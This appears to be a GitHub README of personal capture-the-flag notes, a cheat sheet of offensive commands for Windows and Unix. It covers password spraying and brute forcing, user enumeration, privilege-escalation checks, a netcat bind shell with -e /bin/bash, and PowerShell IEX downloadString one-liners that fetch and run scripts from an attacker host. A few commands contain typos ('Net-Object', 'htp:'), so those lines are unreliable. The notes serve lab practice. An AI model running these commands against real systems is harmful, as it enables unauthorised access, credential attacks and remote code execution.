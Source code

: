 # ctf_notes
notes gathered from doing numerous CTFs to help with further CTFs
<p> -----------------------------------------------------------------------------------------
<p> Windows & *nix:
<p> - password spraying:
<p> crackmapexec [module] -u [users.txt] -p [passwords.txt] [ip or ip range]
<p> - bruteforce (more options may be required, example used was SSH module):
<p> medusa -h [ip] -U [users.txt] -P [passwords.txt] -M [module] [ip] 
<p> general notes:
<p> known hosts ssh file will show all hosts the host has SSH'd into
<p> - command to reset a broke terminal session
<p> $> reset
<p> - ssh using private rsa instead of password:
<p> ssh -i [private rsa] [user]@[ip]
<p> - impacket tools location on kali
<p> /usr/share/doc/python3-impacket/examples/
<p> use evilwinrm for when you have winrm access and want RCE
<p> - upload file using curl
<p> curl -x PUT http://[ip]:[port]/[payload] -d @[file]
<p> - move files using CURL
<p> curl -x MOVE -H 'Destination:http://[ip]/[file]' http://[ip]/[file]
<p> - check SNMP info of target
<p> snmpwalk -c public -vzc [ip]
<p> - SNMP enum script
<p> snmp-check
<p> add functionality to reverse shell
<p> rlwrap nc -lvnp [port]

<p> -----------------------------------------------------------------------------------------
</p>
<p> upgrade shell using python pty library and adds auto complete for steps 2+ :
<p> 1 - python -c 'import pty;pty.spawn("/bin/bash")'
<p> 2 - CTRL z
<p> 3 - stty raw -echo
<p> 4 - fg <enter key>
<p> 5 - export TERM=xterm
<p> -----------------------------------------------------------------------------------------
<p> - mysql syntax for navigation:
<p> show databases; (shows available databases)
<p> use [database name]; (selects database to use)
<p> show tables; (shows tables in database)
<p> describe [table name]; (shows more information on values inside table)
<p> select [table value] from [table]; (shows items inside the table values of the table)
<p> -----------------------------------------------------------------------------------------
<p> - use rpcclient to :
<p> rpcclient -U '[found user]%[found password]' [ip]
<p> > lookupnames administrator
<p> > lookupsids [copied SID and incremen the last octet by one for user enumeration]
<p> > e.g. SID: administrator s-1-5-21-4254423774-1266059056-3197185112-500 [last octet = 500, users are 1000+]
<p> 
<p>
<p> -----------------------------------------------------------------------------------------
<p> - file upload (works with powershell and linux):
<p> curl http://[ip]:[port]/[file] -output [file]
<p> - monitor all root processes:
<p> while true;do ps -ef | grep sh | grep -v sshd | grep root; done;
<p> show all files we have read access on:
<p> find . -readable






<p> *nix:
<p> common privilege escalation techniques:
<p> - seeing if any commands can be run as sude:
<p> sudo -l
<p> - check which programs are avilable on the system for priviledge escalation and send errors away from output
<p> which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp 2>/dev/null
<p> - download all FTP contents (--no-passive if passive is not allowed):
<p> wget -m htp:anonymous:anonymous@<remote IP> (--no-passive) 
<p> - bind shell:
<p> (victim) nc -lp <port> -e /bin/bash  (attacker) rlwrap nc <ip> <port>
<p> - listing file/ directory structure:
<p> find . 
<p> - listing file structure and look for specific file/ directory name
<p> find . | grep -i <word to look for>
<p> - show all running processes:
<p> ss -lntp
<p> -find all running processes belonging to a specfic user
<p> ps -ef | grep <user>
<p> - SUID file enum:
<p> find / -perm -4000 -ls 2>/dev/null
<p> - find files belonging to a specific user:
<p> find / -user <user> -ls 2>/dev/null
<p> - get files running on localhost:
<p> curl http://127.0.0.1:[port>]/[file]
<p> -search for value [words] inside all files recursively:
<p> grep -r [words] ./





Windows:

<p> Rotten potato exploit:
<p> SeImpersonatePriviledge = enabled

<p> windows powershell locations:
<p> c:\Windows\System32\    - 32 bit
<p> c:\Windows\SysWow64\    - 32 bit
<p> c:\Windows\SysNative\   - 64 bit
<p> - windows hash dump structure:
<p> [user]:[user no]:[lm hash]:[nt hash]:::
  
<p> - remote ssh:
<p> plink.exe -l [user on loal machine] -pw [password] -L [10.10.10.15]:[port]:10.10.14.14:[port] -N [10.10.14.14]
<p> [open ssh on kali machine for reverse tunnel]
<p> - sysinternals:
<p> - dump process using the ID given from Get-Process command
<p> .\procdump64.exe
<p> - if you have write access to SMB shares use this for RCE
<p> psexec.py [user]@[ip]
<p> - get current running processes using powershell:
<p> powershell Get-Process
<p> 
<p> File download:
<p> cmd.exe
<p> - certutil -urlcache -f http://<ip>:<port>/<file> <file output>

powershell:
- file upload (will auto run any .ps1 scripts): 
powershell IEX(New-Object Net.WebClient).downloadString("http://<ip>:<port>/<file>")
- using powershell directly causes reverse shell crash:
echo 'IEX(Net-Object Net.WebClient).downloadString("http://<ip>:<port>/<file>")' | powershell -noprofile - 


